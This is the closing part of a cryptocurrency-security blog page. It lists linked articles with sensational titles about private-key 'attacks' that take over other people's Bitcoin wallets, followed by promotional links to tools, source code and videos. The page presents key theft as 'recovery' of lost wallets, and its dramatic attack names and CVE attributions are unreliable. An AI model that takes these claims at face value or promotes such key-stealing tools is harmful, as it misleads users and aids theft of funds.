<li><em><strong><a href="https://keyhunters.ru/scalar-venom-attack-critical-memory-leak-private-key-recovery-and-complete-takeover-of-bitcoin-wallets-by-an-attacker-where-control-over-the-victims-btc-cryptocurrency-funds-is-achieved-through/">SCALAR VENOM ATTACK: Critical memory leak, private key recovery, and complete takeover of Bitcoin wallets by an attacker, where control over the victim’s BTC cryptocurrency funds is achieved through memory poisoning to compromise wallet assets.</a>&nbsp;</strong>🔥 SCALAR VENOM ATTACK — A cryptographic attack to leak private keys (Scalar Poison / Poisonous Scalar Infection) SCALAR VENOM&nbsp;ATTACK&nbsp;is a new class of cryptographic attack aimed at extracting Bitcoin…<a href="https://keyhunters.ru/scalar-venom-attack-critical-memory-leak-private-key-recovery-and-complete-takeover-of-bitcoin-wallets-by-an-attacker-where-control-over-the-victims-btc-cryptocurrency-funds-is-achieved-through/">Read More</a></em></li>

<li><em><a href="https://keyhunters.ru/hash-race-poison-attack-a-devastating-attack-on-digital-signature-infrastructure-including-private-key-recovery-for-lost-bitcoin-wallets-where-the-attacker-injects-their-own-values/"><strong>Race Poison Attack: A devastating attack on digital signature infrastructure, including private key recovery for lost Bitcoin wallets, where the attacker injects their own values ​​into the signature, potentially leaking private keys.</strong></a>&nbsp;Hash Race Poison Attack A critical vulnerability arising from the lack of thread safety in the caching of cryptographic hashes in Bitcoin’s transaction signing infrastructure opens the door to one…<a href="https://keyhunters.ru/hash-race-poison-attack-a-devastating-attack-on-digital-signature-infrastructure-including-private-key-recovery-for-lost-bitcoin-wallets-where-the-attacker-injects-their-own-values/">Read More</a></em></li>

<li><em><a href="https://keyhunters.ru/bitcoin-golden-onehash-heist-recovering-lost-bitcoin-wallets-using-cve-2025-29774-where-an-attacker-signs-a-transaction-without-having-the-private-key-effectively-making-the-bitcoin-system/"><strong>Bitcoin Golden Onehash Heist: Recovering lost Bitcoin wallets using (CVE-2025-29774) where an attacker signs a transaction without having the private key—effectively making the Bitcoin system unable to distinguish between the true owner of Bitcoin funds and the attacker.</strong></a>&nbsp;Bitcoin Golden Onehash Heist (&nbsp;Digital Signature Forgery Attack&nbsp;—&nbsp;&nbsp;CVE-2025-29774&nbsp;) The critical vulnerability in the SIGHASH_SINGLE flag handling discussed above opens the door to one of the most devastating attacks on the…<a href="https://keyhunters.ru/bitcoin-golden-onehash-heist-recovering-lost-bitcoin-wallets-using-cve-2025-29774-where-an-attacker-signs-a-transaction-without-having-the-private-key-effectively-making-the-bitcoin-system/">Read More</a></em></li>

<li><em><a href="https://keyhunters.ru/bloodprint-attack-is-a-devastating-vulnerability-that-leaks-private-keys-from-bitcoin-wallets-and-methods-for-recovering-them-the-vulnerability-gives-an-attacker-absolute-control-to-legitimately-sign/"><strong>Bloodprint Attack is a devastating vulnerability that leaks private keys from Bitcoin wallets and methods for recovering them. The vulnerability gives an attacker absolute control to legitimately sign any transactions and permanently withdraw all BTC funds.</strong></a>&nbsp;Bloodprint Attack (Secret Key Leakage Attack) A critical cryptographic vulnerability involving private key leakage from memory leads to attacks known in scientific literature as «Secret Key Leakage Attacks» or «Key…<a href="https://keyhunters.ru/bloodprint-attack-is-a-devastating-vulnerability-that-leaks-private-keys-from-bitcoin-wallets-and-methods-for-recovering-them-the-vulnerability-gives-an-attacker-absolute-control-to-legitimately-sign/">Read More</a></em></li>

<li><em><a href="https://keyhunters.ru/streamleak-attack-total-compromise-of-bitcoin-assets-through-scientific-analysis-of-private-key-recovery-from-vulnerable-logging-systems-attackers-withdraw-funds-and-destroy-digital-property-without/"><strong>STREAMLEAK ATTACK: Total compromise of Bitcoin assets through scientific analysis of private key recovery from vulnerable logging systems. Attackers withdraw funds and destroy digital property without the owner’s knowledge.</strong></a>&nbsp;STREAMLEAK&nbsp;ATTACK (&nbsp;Private Key Compromise Attack&nbsp;)&nbsp;&nbsp;is a method of extracting cryptographic secrets through abuse of an overloaded operator&nbsp;&nbsp;&lt;&lt;&nbsp;in C++. A critical vulnerability in the serialization and output of private keys could…<a href="https://keyhunters.ru/streamleak-attack-total-compromise-of-bitcoin-assets-through-scientific-analysis-of-private-key-recovery-from-vulnerable-logging-systems-attackers-withdraw-funds-and-destroy-digital-property-without/">Read More</a></em></li>

<li><em><a href="https://keyhunters.ru/oracle-whisper-attack-a-critical-base58-decoding-secret-leak-vulnerability-threatens-bitcoin-wallet-private-key-extraction-where-an-attacker-steals-secret-key-bits-from-the-i-o-library/"><strong>Oracle Whisper Attack: A critical Base58 decoding secret leak vulnerability threatens Bitcoin wallet private key extraction, where an attacker steals secret key bits from the I/O library.</strong></a>&nbsp;Oracle Whisper Attack (&nbsp;Private Key Compromise Attack&nbsp;) Attack Description:When processing a Base58 string containing a private key, the attacker injects an «oracle»—a thin agent in the I/O library that whispers…<a href="https://keyhunters.ru/oracle-whisper-attack-a-critical-base58-decoding-secret-leak-vulnerability-threatens-bitcoin-wallet-private-key-extraction-where-an-attacker-steals-secret-key-bits-from-the-i-o-library/">Read More</a></em></li>

<li><em><strong><a href="https://keyhunters.ru/hex-dump-reveal-attack-and-private-key-recovery-for-lost-bitcoin-wallets-where-an-attacker-uses-logging-of-secret-data-to-reveal-a-hexadecimal-dump-hex-dump-reveal-containing-btc-coins/">Hex Dump Reveal Attack and private key recovery for lost Bitcoin wallets, where an attacker uses logging of secret data to reveal a hexadecimal dump (Hex Dump Reveal) containing BTC coins</a>&nbsp;</strong>Hex Dump Reveal Attack (&nbsp;«Key Disclosure Attack», «Secret Key Leakage Attack», «Key Recovery Attack». CVE-2025-29774 and CWE-532&nbsp;) «Hex Dump Reveal»&nbsp;&nbsp;— «Hexadecimal dump disclosure». Vulnerabilities in the logging of private data,…<a href="https://keyhunters.ru/hex-dump-reveal-attack-and-private-key-recovery-for-lost-bitcoin-wallets-where-an-attacker-uses-logging-of-secret-data-to-reveal-a-hexadecimal-dump-hex-dump-reveal-containing-btc-coins/">Read More</a></em></li>

<li><em><strong><a href="https://keyhunters.ru/secret-capsule-attack-recovering-bitcoin-wallet-private-keys-through-a-vulnerability-and-mass-compromise-of-bitcoin-wallets-where-an-attacker-creates-predictable-entropy-in-mersenne-twister-generato/">Secret Capsule Attack: Recovering Bitcoin wallet private keys through a vulnerability and mass compromise of Bitcoin wallets, where an attacker creates predictable entropy in Mersenne Twister generators, there are real thefts of user funds in the amount of over $900,000</a>&nbsp;</strong>SECRET CAPSULE ATTACK (Predictable PRNG Seed Attack) The critical «Milk Sad» vulnerability (CVE-2023-39910), discovered in Libbitcoin Explorer’s entropy generation mechanism, clearly demonstrated how a single flaw in the randomness source…<a href="https://keyhunters.ru/secret-capsule-attack-recovering-bitcoin-wallet-private-keys-through-a-vulnerability-and-mass-compromise-of-bitcoin-wallets-where-an-attacker-creates-predictable-entropy-in-mersenne-twister-generato/">Read More</a></em></li>

<li><em><strong><a href="https://keyhunters.ru/key-fountain-attack-turning-a-buffer-overflow-into-a-tool-for-btc-theft-and-private-key-recovery-in-the-bitcoin-ecosystem-where-an-attacker-gains-the-ability-to-extract-or-replace-bitcoin-wallet-sec/">Key Fountain Attack: Turning a Buffer Overflow into a Tool for BTC Theft and Private Key Recovery in the Bitcoin Ecosystem, where an Attacker Gains the Ability to Extract or Replace Bitcoin Wallet Secrets</a>&nbsp;</strong>Key Fountain Attack (&nbsp;Heap-based Buffer Overflow&nbsp;) The attacker prepares input data—specially formed fragments for the libbitcoin library’s splice or build_chunk functions—that exceed the allocated buffer size. For example, the transmitted…<a href="https://keyhunters.ru/key-fountain-attack-turning-a-buffer-overflow-into-a-tool-for-btc-theft-and-private-key-recovery-in-the-bitcoin-ecosystem-where-an-attacker-gains-the-ability-to-extract-or-replace-bitcoin-wallet-sec/">Read More</a></em></li>

<li><em><strong><a href="https://keyhunters.ru/mirror-siphash-breach-attack-a-fundamental-threat-to-privacy-and-private-key-recovery-in-the-bitcoin-network-where-an-attacker-is-highly-likely-to-perform-collision-bloom-filters-on-btc-transaction/">Mirror SipHash Breach Attack: A fundamental threat to privacy and private key recovery in the Bitcoin network, where an attacker is highly likely to perform collision bloom filters on BTC transaction session hash tables.</a>&nbsp;</strong>Mirror SipHash Breach Attack (Partial Key Reuse Attack on SipHash Initialization) The critical «Mirror SipHash Breach Attack» vulnerability highlights a fundamental security issue with the cryptography used in Bitcoin’s infrastructure.…<a href="https://keyhunters.ru/mirror-siphash-breach-attack-a-fundamental-threat-to-privacy-and-private-key-recovery-in-the-bitcoin-network-where-an-attacker-is-highly-likely-to-perform-collision-bloom-filters-on-btc-transaction/">Read More</a></em></li>

<li><em><strong><a href="https://keyhunters.ru/bitspectre85-attack-a-stealthy-crypto-attack-that-allows-an-attacker-to-gradually-recover-a-private-key-and-gain-control-of-a-bitcoin-wallet-by-timing-the-division-operations/">BitSpectre85 Attack: A stealthy crypto attack that allows an attacker to gradually recover a private key and gain control of a Bitcoin wallet by timing the division operations.</a>&nbsp;</strong>The BitSpectre85 Attack&nbsp;, the essence of the vulnerability described above, could be called «BitSpectre85: Timing Secret Invocation.» This attack demonstrates how even simple data encryption can become a vulnerable channel…<a href="https://keyhunters.ru/bitspectre85-attack-a-stealthy-crypto-attack-that-allows-an-attacker-to-gradually-recover-a-private-key-and-gain-control-of-a-bitcoin-wallet-by-timing-the-division-operations/">Read More</a></em></li>

<li><em><strong><a href="https://keyhunters.ru/base58-ghost-attack-complete-control-over-the-victims-funds-a-critical-vulnerability-in-the-processing-of-unsanitized-base58-encoding-memory-where-an-attack-occurs-to-leak-private-keys-from-memor/">Base58 Ghost Attack: Complete control over the victim’s funds. A critical vulnerability in the processing of unsanitized Base58 encoding memory, where an attack occurs to leak private keys from memory and completely capture BTC coins by the attacker.</a>&nbsp;</strong>“Base58 Ghost Attack”&nbsp;— extraction of private keys from uncleaned memory after base58 encoding operations. In conclusion, the discovered critical vulnerability in the processing of private keys via base58 encoding poses…<a href="https://keyhunters.ru/base58-ghost-attack-complete-control-over-the-victims-funds-a-critical-vulnerability-in-the-processing-of-unsanitized-base58-encoding-memory-where-an-attack-occurs-to-leak-private-keys-from-memor/">Read More</a></em></li>

<li><em><strong><a href="https://keyhunters.ru/spectral-seed-siphon-how-residual-memory-bytes-reveal-private-keys-to-lost-bitcoin-wallets-and-become-a-path-to-recovering-private-keys-allowing-an-attacker-to-steal-all-btc-coins/">Spectral Seed Siphon: How residual memory bytes reveal private keys to lost Bitcoin wallets and become a path to recovering private keys, allowing an attacker to steal all BTC coins</a>&nbsp;</strong>Spectral Seed Siphon The vulnerability of incomplete deletion of secret data from RAM in cryptographic wallets represents one of the most critical threats to the modern Bitcoin ecosystem. In the…<a href="https://keyhunters.ru/spectral-seed-siphon-how-residual-memory-bytes-reveal-private-keys-to-lost-bitcoin-wallets-and-become-a-path-to-recovering-private-keys-allowing-an-attacker-to-steal-all-btc-coins/">Read More</a></em></li>

<li><em><strong><a href="https://keyhunters.ru/binary-extractor-attack-how-a-digital-stranglehold-on-private-keys-exerts-control-over-a-victims-bitcoin-funds-where-an-attacker-exploits-a-vulnerable-binary-class-and-changes-the-rules-of-the-gam/">Binary Extractor Attack: How a digital stranglehold on private keys exerts control over a victim’s Bitcoin funds, where an attacker exploits a vulnerable Binary class and changes the rules of the game by encapsulating and mass-theft of BTC coins.</a>&nbsp;</strong>Binary Extractor Attack: Private Byte Strangler A critical vulnerability called Binary Extractor Attack: Private Byte Strangler illustrates the fundamental danger of failing to adhere to strict encapsulation in cryptographic applications…<a href="https://keyhunters.ru/binary-extractor-attack-how-a-digital-stranglehold-on-private-keys-exerts-control-over-a-victims-bitcoin-funds-where-an-attacker-exploits-a-vulnerable-binary-class-and-changes-the-rules-of-the-gam/">Read More</a></em></li>

<li><em><strong><a href="https://keyhunters.ru/spectral-string-leak-a-massive-compromise-of-bitcoin-wallets-through-residual-memory-and-a-critical-string-management-vulnerability-in-the-bitcoin-network-allowing-an-attacker-to-recover-a-private-k/">Spectral String Leak: A massive compromise of Bitcoin wallets through residual memory and a critical string management vulnerability in the Bitcoin network, allowing an attacker to recover a private key and appropriate all active cryptocurrencies.</a>&nbsp;</strong>Spectral String Leak Attack A Spectral String Leak Attack is a critical vulnerability that can lead to the total loss of bitcoins from users and services due to insufficiently secure…<a href="https://keyhunters.ru/spectral-string-leak-a-massive-compromise-of-bitcoin-wallets-through-residual-memory-and-a-critical-string-management-vulnerability-in-the-bitcoin-network-allowing-an-attacker-to-recover-a-private-k/">Read More</a></em></li>

<li><em><a href="https://keyhunters.ru/memory-phantom-attack-a-critical-memory-leak-vulnerability-in-bitcoin-leading-to-the-recovery-of-private-keys-from-uncleaned-ram-and-the-gradual-capture-of-btc-seed-phrases-by-an-attacker-can-lead/"><strong>Memory Phantom Attack: A critical memory leak vulnerability in Bitcoin, leading to the recovery of private keys from uncleaned RAM and the gradual capture of BTC seed phrases by an attacker, can lead to immediate compromise of wallets and mass theft of digital assets.</strong></a>&nbsp;Memory Phantom Attack A Memory Phantom Leak Attack or Sensitive Memory Disclosure is a real and recognized threat category for Bitcoin (and other cryptocurrencies), registered in the CVE as a…<a href="https://keyhunters.ru/memory-phantom-attack-a-critical-memory-leak-vulnerability-in-bitcoin-leading-to-the-recovery-of-private-keys-from-uncleaned-ram-and-the-gradual-capture-of-btc-seed-phrases-by-an-attacker-can-lead/">Read More</a></em></li>

<li><em><a href="https://keyhunters.ru/log-whisper-attack-how-a-catastrophic-leak-of-private-keys-and-irreversible-compromise-of-bitcoin-wallets-occurs-where-an-attacker-turns-a-regular-log-file-into-a-tool-to-intercept-all-of-the-victim/"><strong>Log Whisper Attack: How a catastrophic leak of private keys and irreversible compromise of Bitcoin wallets occurs, where an attacker turns a regular log file into a tool to intercept all of the victim’s funds on the BTC network.</strong></a>&nbsp;Log Whisper Attack The «Log Whisper Attack» vulnerability is an example of a critical development error with irreversible consequences. The only effective defense is an architectural ban on private key…<a href="https://keyhunters.ru/log-whisper-attack-how-a-catastrophic-leak-of-private-keys-and-irreversible-compromise-of-bitcoin-wallets-occurs-where-an-attacker-turns-a-regular-log-file-into-a-tool-to-intercept-all-of-the-victim/">Read More</a></em></li>

<li><em><strong><a href="https://keyhunters.ru/salt-drain-attack-cve-2023-39910-a-critical-vulnerability-in-libbitcoin-explorers-entropy-and-complete-recovery-of-private-keys-with-the-seizure-of-btc-wallet-funds-the-entire-flaw-in-owner-entr/">Salt Drain Attack (CVE-2023-39910): A critical vulnerability in Libbitcoin Explorer’s entropy and complete recovery of private keys with the seizure of BTC wallet funds. The entire flaw in owner entropy allowed an attacker to steal all active BTC coins.</a>&nbsp;</strong>Salt Drain Attack CVE-2023-39910: (Milk Sad attack) The Milk Sad attack (CVE-2023-39910) allowed attackers to mass-recover private keys of Bitcoin wallets created using Libbitcoin Explorer 3.x, causing significant financial losses…<a href="https://keyhunters.ru/salt-drain-attack-cve-2023-39910-a-critical-vulnerability-in-libbitcoin-explorers-entropy-and-complete-recovery-of-private-keys-with-the-seizure-of-btc-wallet-funds-the-entire-flaw-in-owner-entr/">Read More</a></em></li>

<li><em><strong><a href="https://keyhunters.ru/entropy-recovery-attack-the-specter-of-entropy-against-bitcoin-a-vulnerability-in-random-number-generation-and-the-loss-of-secret-data-including-the-recovery-of-private-keys-and-total-control-of-bt/">Entropy Recovery Attack: The specter of entropy against Bitcoin: a vulnerability in random number generation and the loss of secret data, including the recovery of private keys and total control of BTC funds by an attacker.</a>&nbsp;</strong>«Entropy Ghost Attack» — Battle with the Entropy Ghost The libbitcoin entropy generation vulnerability (CVE-2023-39910) is a rare, catastrophic flaw that can not only partially weaken the cryptosystem but completely…<a href="https://keyhunters.ru/entropy-recovery-attack-the-specter-of-entropy-against-bitcoin-a-vulnerability-in-random-number-generation-and-the-loss-of-secret-data-including-the-recovery-of-private-keys-and-total-control-of-bt/">Read More</a></em></li>

<li><em><strong><a href="https://keyhunters.ru/slice-phantom-attack-how-implementation-bugs-turn-lost-bitcoin-private-keys-into-a-tool-for-total-control-for-an-attacker-where-a-new-class-of-implementation-side-channel-attacks-compromising-a-sec/">Slice Phantom Attack: How Implementation Bugs Turn Lost Bitcoin Private Keys into a Tool for Total Control for an Attacker, Where a New Class of Implementation Side-Channel Attacks: Compromising a Secret and Losing Control for a Bitcoin Wallet Owner</a>&nbsp;</strong>Slice Phantom Attack The Slice Phantom&nbsp;Attack&nbsp;&nbsp;&nbsp;demonstrates that&nbsp;&nbsp;implementation details&nbsp;&nbsp;are just as important as the mathematical robustness of algorithms. Incorrect ordering of operations and the lack of protection for temporary buffers allow…<a href="https://keyhunters.ru/slice-phantom-attack-how-implementation-bugs-turn-lost-bitcoin-private-keys-into-a-tool-for-total-control-for-an-attacker-where-a-new-class-of-implementation-side-channel-attacks-compromising-a-sec/">Read More</a></em></li>

<li><em><strong><a href="https://keyhunters.ru/key-fragmentation-heist-a-new-era-of-fragmentation-how-partial-leaks-become-complete-bitcoin-asset-thefts-where-an-attacker-takes-total-control-and-completely-seizes-btc-funds-through-fragmented-l/">Key Fragmentation Heist – A New Era of Fragmentation: How Partial Leaks Become Complete Bitcoin Asset Thefts, Where an Attacker Takes Total Control and Completely Seizes BTC Funds Through Fragmented Leaks of Private Keys and Secret Data</a>&nbsp;</strong>Key Fragmentation Heist Attack Key Fragmentation Heist&nbsp;Attack:&nbsp;The attacker turns a secure object used to store encrypted private keys into a vulnerability by stealing the key fragment by fragment, rather than…<a href="https://keyhunters.ru/key-fragmentation-heist-a-new-era-of-fragmentation-how-partial-leaks-become-complete-bitcoin-asset-thefts-where-an-attacker-takes-total-control-and-completely-seizes-btc-funds-through-fragmented-l/">Read More</a></em></li>

<li><em><strong><a href="https://keyhunters.ru/stealth-hijack-attack-recovering-private-keys-and-completely-stealing-a-victims-btc-via-a-bitcoin-script-serialization-vulnerability-where-the-attacker-creates-a-wallet-with-the-public-use-of-a-cu/">Stealth Hijack Attack: Recovering private keys and completely stealing a victim’s BTC via a Bitcoin script serialization vulnerability, where the attacker creates a wallet with the public use of a custom stealth script, where the private keys are encoded in hidden sections of the LibBitcoin library.</a>&nbsp;</strong>Stealth Hijack&nbsp;is an attack that exploits a bug in script processing and steals secret keys hidden in a data structure. Stealth Hijack Attack: Stealing Script Secrets In a «Stealth Hijack»…<a href="https://keyhunters.ru/stealth-hijack-attack-recovering-private-keys-and-completely-stealing-a-victims-btc-via-a-bitcoin-script-serialization-vulnerability-where-the-attacker-creates-a-wallet-with-the-public-use-of-a-cu/">Read More</a></em></li>

<li><em><strong><a href="https://keyhunters.ru/minikey-mayhem-attack-mass-hacks-and-complete-acquisition-of-victims-btc-funds-through-a-brute-force-private-key-attack-vulnerability-where-an-attacker-seizes-lost-bitcoin-wallets-through-a-wave-o/">MiniKey Mayhem Attack: Mass hacks and complete acquisition of victims’ BTC funds through a brute-force private key attack vulnerability, where an attacker seizes lost Bitcoin wallets through a wave of 22-character mini-keys using the KDF algorithm.</a>&nbsp;</strong>MiniKey Mayhem Attack: Straight Storm Imagine a cyber-stormtrooper charging into a «MiniKey Fort» with a high-speed SHA-256 cannon: During a «direct storm,» the attacker fires a wave of 22-character mini-keys…<a href="https://keyhunters.ru/minikey-mayhem-attack-mass-hacks-and-complete-acquisition-of-victims-btc-funds-through-a-brute-force-private-key-attack-vulnerability-where-an-attacker-seizes-lost-bitcoin-wallets-through-a-wave-o/">Read More</a></em></li>

<li><em><strong><a href="https://keyhunters.ru/shamans-gate-attack-hd-derivation-and-an-invisible-vulnerability-that-allows-for-the-recovery-of-private-keys-and-the-theft-of-all-btc-through-master-keys-where-the-attacker-gradually-gains-comple/">Shaman’s Gate Attack: HD derivation and an invisible vulnerability that allows for the recovery of private keys and the theft of all BTC through master keys, where the attacker gradually gains complete control over Bitcoin funds.</a>&nbsp;</strong>Shaman’s Gate Attack The «Shaman’s Gate Attack» class of attacks is a fundamental consequence of non-hardened derivation in HD wallets, as confirmed by numerous hacks. Adhering to the practice of…<a href="https://keyhunters.ru/shamans-gate-attack-hd-derivation-and-an-invisible-vulnerability-that-allows-for-the-recovery-of-private-keys-and-the-theft-of-all-btc-through-master-keys-where-the-attacker-gradually-gains-comple/">Read More</a></em></li>

<li><em><strong><a href="https://keyhunters.ru/phantomkey-heist-attack-invisible-leakage-of-private-keys-and-recovery-of-access-to-lost-bitcoin-wallets-with-total-control-over-the-victims-balance-where-the-attacker-in-a-friendly-manner-injects/">PhantomKey Heist Attack: Invisible leakage of private keys and recovery of access to lost Bitcoin wallets with total control over the victim’s balance, where the attacker in a friendly manner injects a module over the audit of private keys</a>&nbsp;</strong>PhantomKey Heist: An Invisible Private Key Capture Attack PhantomKey Heist&nbsp;turns an innocent C++ operator call into a massive digital treasure heist. PhantomKey Heist Attack The critical «PhantomKey Heist» vulnerability demonstrates…<a href="https://keyhunters.ru/phantomkey-heist-attack-invisible-leakage-of-private-keys-and-recovery-of-access-to-lost-bitcoin-wallets-with-total-control-over-the-victims-balance-where-the-attacker-in-a-friendly-manner-injects/">Read More</a></em></li>

<li><em><a href="https://keyhunters.ru/ramnesia-attack-a-ram-based-cryptohack-that-allows-for-total-recovery-of-private-keys-and-complete-theft-of-funds-from-lost-bitcoin-wallets-an-attacker-exploits-the-black-box-of-memory-and-trigg/"><strong>RAMnesia Attack: A RAM-based cryptohack that allows for total recovery of private keys and complete theft of funds from lost Bitcoin wallets. An attacker exploits the “Black Box” of memory and triggers the Secret Key Leakage vulnerability, thus destroying the Bitcoin cryptocurrency’s security.</strong></a>&nbsp;RAMnesia Attack RAMnesia&nbsp;is a daring cryptographic attack in which an attacker turns a victim’s RAM into a «black box» for hunting forgotten private keys. In the attack scenario, the hacker…<a href="https://keyhunters.ru/ramnesia-attack-a-ram-based-cryptohack-that-allows-for-total-recovery-of-private-keys-and-complete-theft-of-funds-from-lost-bitcoin-wallets-an-attacker-exploits-the-black-box-of-memory-and-trigg/">Read More</a></em></li>

<li><em><a href="https://keyhunters.ru/phantom-keysmith-predictable-entropy-as-a-weapon-for-complete-bitcoin-wallet-takeover-where-an-attacker-guesses-the-secret-seed-by-brute-forcing-the-generation-and-recovering-the-private-key-using-w/"><strong>Phantom Keysmith: Predictable entropy as a weapon for complete Bitcoin wallet takeover, where an attacker guesses the secret seed by brute-forcing the generation and recovering the private key using weak memory entropy and steals absolutely all BTC funds.</strong></a>&nbsp;Phantom Keysmith Attack The attacker acts as&nbsp;a «ghost blacksmith»&nbsp;who forges private keys directly from the ether of uninitialized memory. The attack exploits creation and serialization vulnerabilities&nbsp;ek_tokento&nbsp;forge&nbsp;a new working key by…<a href="https://keyhunters.ru/phantom-keysmith-predictable-entropy-as-a-weapon-for-complete-bitcoin-wallet-takeover-where-an-attacker-guesses-the-secret-seed-by-brute-forcing-the-generation-and-recovering-the-private-key-using-w/">Read More</a></em></li>

<li><em><strong><a href="https://keyhunters.ru/konsole-leaker-attack-a-silent-leak-where-an-attacker-gains-complete-control-over-btc-funds-by-recovering-private-keys-from-logs-undermining-the-fundamental-principles-of-the-bitcoin-cryptocurrency/">Konsole Leaker Attack: A silent leak where an attacker gains complete control over BTC funds by recovering private keys from logs, undermining the fundamental principles of the Bitcoin cryptocurrency.</a>&nbsp;</strong>Konsole Leaker Attack The attack, dubbed&nbsp;the «Konsole Leaker Attack,»&nbsp;is spectacular, easily reproducible, and extremely dangerous for most projects with poor internal data output hygiene. The attack exploits an uncontrolled private…<a href="https://keyhunters.ru/konsole-leaker-attack-a-silent-leak-where-an-attacker-gains-complete-control-over-btc-funds-by-recovering-private-keys-from-logs-undermining-the-fundamental-principles-of-the-bitcoin-cryptocurrency/">Read More</a></em></li>

<li><em><a href="https://keyhunters.ru/bit-harvester-attack-how-a-single-line-of-code-turns-a-lost-bitcoin-wallet-into-a-rich-harvest-for-an-attacker-cve-2023-39910-vulnerability-and-the-900000-private-key-compromise-attack-how-lax-da/"><strong>Bit Harvester Attack: How a single line of code turns a lost Bitcoin wallet into a rich harvest for an attacker; CVE-2023-39910 vulnerability and the $900,000 Private Key Compromise attack; How lax data handling in unsafe_array_cast opened the floodgates for an automated attack and the loss of all funds in Bitcoin wallets</strong></a>&nbsp;&nbsp;Bit Harvester Attack: Where the spring is weak, there is a rich harvest! The CVE-2023-39910&nbsp;vulnerability&nbsp;in the libbitcoin library is a critical cryptographic security vulnerability that demonstrates how a single line…<a href="https://keyhunters.ru/bit-harvester-attack-how-a-single-line-of-code-turns-a-lost-bitcoin-wallet-into-a-rich-harvest-for-an-attacker-cve-2023-39910-vulnerability-and-the-900000-private-key-compromise-attack-how-lax-da/">Read More</a></em></li>

<li><em><strong><a href="https://keyhunters.ru/bloodtrail-attack-bitcoins-residual-memory-leakage-critical-memory-vulnerability-as-a-mechanism-for-complete-private-key-capture-by-an-attacker-where-uncleared-buffers-are-weaponized-for-btc-t/">Bloodtrail Attack: Bitcoin’s “Residual Memory Leakage” Critical Memory Vulnerability as a Mechanism for Complete Private Key Capture by an Attacker, Where Uncleared Buffers Are Weaponized for BTC Theft</a>&nbsp;</strong>Bloodtrail Attack An analysis of a critical vulnerability discovered in the storage of private keys in the process memory of open-source Bitcoin wallets clearly demonstrates a fundamental threat to the…<a href="https://keyhunters.ru/bloodtrail-attack-bitcoins-residual-memory-leakage-critical-memory-vulnerability-as-a-mechanism-for-complete-private-key-capture-by-an-attacker-where-uncleared-buffers-are-weaponized-for-btc-t/">Read More</a></em></li>
</ol>

<figure class="aligncenter size-full"><a href="https://dzen.ru/video/watch/691a7a10a8b7c874612993eb" target="_blank" rel=" noreferrer noopener"></a></figure>

This material was created for the&nbsp;&nbsp;<a href="https://cryptodeeptech.ru/" target="_blank" rel="noreferrer noopener">CRYPTO DEEP TECH</a>&nbsp;portal &nbsp;to ensure financial data security and elliptic curve cryptography&nbsp;&nbsp;<a href="https://www.youtube.com/@cryptodeeptech" target="_blank" rel="noreferrer noopener">(secp256k1) against weak&nbsp;</a><a href="https://github.com/demining/CryptoDeepTools" target="_blank" rel="noreferrer noopener">ECDSA</a>&nbsp;&nbsp;signatures&nbsp;&nbsp;&nbsp;in the&nbsp;&nbsp;<a href="https://t.me/cryptodeeptech" target="_blank" rel="noreferrer noopener">BITCOIN</a>&nbsp;cryptocurrency . The software developers are not responsible for the use of this material.

<strong><a href="https://www.cryptou.ru/bitscanpro" target="_blank" rel="noreferrer noopener">Crypto Tools</a></strong>

<strong><a href="https://github.com/demining/Scalar-Venom-Attack" target="_blank" rel="noreferrer noopener">Source code</a></strong>

<strong></strong>

<strong><a href="https://t.me/cryptodeeptech" target="_blank" rel="noreferrer noopener">Telegram: https://t.me/cryptodeeptech</a></strong>

<strong><a href="https://youtu.be/cvWLH5dvbAA" target="_blank" rel="noreferrer noopener">Video: https://youtu.be/cvWLH5dvbAA</a></strong>

<strong><a href="https://dzen.ru/video/watch/691a7a10a8b7c874612993eb" target="_blank" rel="noreferrer noopener">Video tutorial: https://dzen.ru/video/watch/691a7a10a8b7c874612993eb</a></strong>

<strong><a href="https://cryptodeeptech.ru/scalar-venom-attack" target="_blank" rel="noreferrer noopener">Source: https://cryptodeeptech.ru/scalar-venom-attack</a></strong>

<figure class="wp-block-image"></figure>

	
<!-- .entry-content -->

	<footer class="entry-footer">
		
<i class="fa fa-folder-open" aria-hidden="true"></i> <a href="https://cryptodeeptech.ru/category/cryptanalysis/" rel="category tag">Cryptanalysis</a>
	</footer><!-- .entry-footer -->
</article><!-- #post-3545 -->

	<nav class="navigation post-navigation" aria-label="Posts">
		<h2 class="screen-reader-text">Post navigation</h2>
		

<a href="https://cryptodeeptech.ru/pixnapping-attack-on-android/" rel="prev">Pixnapping Attack: Compromising private keys and seed phrases through vulnerability CVE-2025-48561 represents a new critical threat to the Bitcoin network and Android infrastructure</a>

	</nav>		

			<h3 id="itng_related_posts_title">Related Posts</h3>
			

				<article id="post-2053" class="itng-blog col-md-6 col-lg-4 post-2053 post type-post status-publish format-standard hentry category-cryptanalysis">
		

			

							

			
			

				

					
					 <a class="url fn n" href="https://cryptodeeptech.ru/author/cryptodeeptech/">Crypto Deep Tech</a>				
<!-- .entry-meta -->
				
				<header class="entry-header">
					<h2 class="entry-title"><a href="https://cryptodeeptech.ru/polynonce-attack/">POLYNONCE ATTACK we use BITCOIN signatures as a Polynomial to an arbitrarily high power of 128 bits to get a Private Key</a></h2>				</header><!-- .entry-header -->
				
				

					In this article, we will again touch on the topic:&nbsp;“Bitcoin’s Critical Vulnerability”&nbsp;and use the brand new attack of 2023&nbsp;“POLYNONCE ATTACK”&nbsp;on all three examples .&nbsp;The very first mention of this attack is described in an article from&nbsp;“Kudelski Security”&nbsp;. https://research.kudelskisecurity.com/2023/03/06/polynonce-a-tale-of-a-novel-ecdsa-attack-and-bitcoin-tears/ As a practical basis, we will take materials from our earlier article&nbsp;“&nbsp;Speed ​​up secp256k1 with endomorphism”&nbsp;where the values ​​​​on…				

				
				

					

						<a href="https://cryptodeeptech.ru/category/cryptanalysis/" rel="category tag">Cryptanalysis</a>					

					

						0					

				

			

		

